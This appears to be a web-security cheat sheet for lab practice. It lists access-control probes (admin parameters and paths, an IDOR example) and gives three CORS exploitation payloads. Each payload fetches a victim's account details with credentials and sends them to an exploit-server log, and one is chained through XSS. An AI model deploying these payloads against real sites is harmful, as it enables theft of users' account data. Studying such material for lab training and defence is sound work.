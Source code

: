 1. Check application responses
2. Check Source Code
3. Check directory brute-force
4. Check error messages


# Access-Control

Check and manipulate request headers:

```
?admin=true
?role=1
/admin
/administrator-panel
// Check for IDORS
https://insecure-website.com/myaccount?id=456
```


# CORS

Evil JS Code Ex for basic reflection :-

```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

Evil JS Code Ex for trusting null :-

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText); }; </script>"></iframe>
```

If parameter vulnerable to XSS 

```
<script> document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```


Github:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CORS%20Misconfiguration/README.md

# XXE
